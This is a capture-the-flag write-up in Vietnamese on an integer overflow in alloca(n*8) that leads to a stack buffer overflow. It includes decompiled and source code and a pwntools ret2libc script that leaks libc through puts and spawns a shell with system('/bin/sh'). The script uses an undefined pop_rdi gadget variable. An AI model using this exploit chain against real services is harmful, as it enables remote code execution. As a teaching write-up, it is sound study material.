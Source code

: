 # IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned __int64 v3; // rax
  void *v4; // rsp
  unsigned __int64 v6; // [rsp+8h] [rbp-10h] BYREF
  unsigned __int64 *v7; // [rsp+10h] [rbp-8h]

  init();
  puts("Secret saver!");
  puts("How long is your secret?");
  printf("> ");
  __isoc99_scanf("%lu", &v6);
  v3 = 16 * ((8 * v6 + 23) / 0x10);
  while ( &v6 != (unsigned __int64 *)((char *)&v6 - (v3 & 0xFFFFFFFFFFFFF000LL)) )
    ;
  v4 = alloca(v3 & 0xFFF);
  if ( (v3 & 0xFFF) != 0 )
    *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8) = *(unsigned __int64 *)((char *)&v6 + (v3 & 0xFFF) - 8);
  v7 = &v6;
  printf("Enter your secret: ");
  read_str((__int64)v7, v6);
  return 0;
}
```  

# Source 
```
#include <stdio.h>
#include <alloca.h>
#include <unistd.h>

void init()
{
	setbuf(stdin, 0);
	setbuf(stdout, 0);
	setbuf(stderr, 0);
}

void read_str(char *buffer, unsigned long int n)
{
	char c;
	unsigned long int i = 0;
	while (i < n)
	{
		read(0, &c, 1);
		if (c == '\n')
			break;
		buffer[i] = c;
		i++;
	}
	buffer[i] = '\0';
}

int main()
{
	char *buffer;
	unsigned long int n;

	init();

	puts("Secret saver!");
	puts("How long is your secret?");
	printf("> ");
	scanf("%lu", &n);

	buffer = alloca(n*8);
	printf("Enter your secret: ");
	read_str(buffer, n);
}
```

* khi nhìn vào source ta thấy có hàm alloca() thì hàm này có chức năng tương tự như malloc là cấp phát bộ nhớ nhưng thay vì nằm trên heap như malloc thì alloca cấp phát bộ nhớ trên stack. ví dụ alloca(16) sẽ cấp phát 16 byte  
* khi nhìn vào source code ta thấy được ```alloca(n*8)``` thì ta phát hiện ở đây là lỗi IOF, ta sẽ lấy một ví dụ sau.

##### ví dụ
```c
#include <stdio.h>

int main()
{
    int a;
    scanf("%d", &a);
    printf("%d", a * 8);
}
```

phạm vi của int là ```-2,147,483,648 tới 2,147,483,647``` và em tính toán ```2147483647/8 = 268435455.875```, em thử với giá trị làm trò xuống ```268435455``` thì ```Output: 2147483640 ``` oke còn trong phạm vi, nhưng nếu e làm tròn lên ```268435456``` thì ```Output: -2147483648```, ta đã tràn phạm vi nên nó thành só âm =)))
* vậy nếu bây giờ, em thử khai báo một biến là long, sau đó gán biểu thức ```a*8``` thì kết quả như thế nào
```c
#include <stdio.h>
int main()
{
    int a;
    scanf("%d", &a);
    long b = a * 8;
    printf("%ld", b);
}
```
```input: 268435456 --- output: -2147483648``` =))) vậy qua phép thử trên và nhiều lần lập trình thì em hiểu là ```a*8``` nghĩa là ```(int) * (int) ```, thì ngôn ngữ C nó sẽ tự ép kiểu theo kiểu dữ liệu có phạm vi lớn nhất trong phép tính, trong trường hợp ``` int * int ``` thì nó sẽ tự hiểu là giá trị sau khi tính sẽ trả về dữ liệu int. Ví dụ trường hợp ```(int) * (long)``` thì giá trị trả về là long.
> từ những phép thử trên ta thấy lỗi IOF ở ```alloca(n * 8) ```
nghĩa là nếu ta nhập n sao cho n * 8 nó tràn ra phạm vi của unsigned long int để trả về giá trị nhỏ, hàm alloca sẽ cấp phát giá trị nhỏ đó và ta vẫn có thể nhập được số lượng kí tự lớn để BOF. 

# Thực thi
* Ở đây mỗi giá trị khác nhau cho ta những payload khác nhau về offset (giá trị nhỏ nhất là 0x2000000000000000), ở đây em chọn 0x2000000000000001
* Chạy thử debug thì ta đã đúng, khi ta đã cấp phát bộ nhớ nhỏ và số lượng kí tự nhập vào lớn  
![image](https://user-images.githubusercontent.com/111769169/222918324-d23d04d7-6676-4b7d-8b7b-77182c08da22.png)  
* việc sau đó là ret2libc
<details> <summary> script </summary>
	
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./iof1_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.31.so")

context.binary = exe
def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r, gdbscript='''
                    b*main+267
                    c
                    ''')
    else:
        r = remote("addr", 1337)

    return r


def main():
    r = conn()
    input()
    
    #################
    ### leak libc ###
    #################
    r.sendlineafter(b"> ", b'2305843009213693953')
    payload = b'a' * 40 + p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts']) + p64(exe.sym['main'])
    r.sendlineafter(b'secret: ', payload)

    ######################
    ### tinh base libc ###
    ######################
    leak = u64(r.recvline(keepends=False) + b'\0\0')
    log.info("leak libc: " + hex(leak))
    libc.address = leak - 0x783a0
    log.info("base libc: " + hex(libc.address))
    r.sendlineafter(b"> ", b'2305843009213693953')

    #################
    ### tao shell ###
    #################
    payload = b'a' * 40
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    r.sendlineafter(b'secret: ', payload)

    r.interactive()


if __name__ == "__main__":
    main()
```
	
</summary>

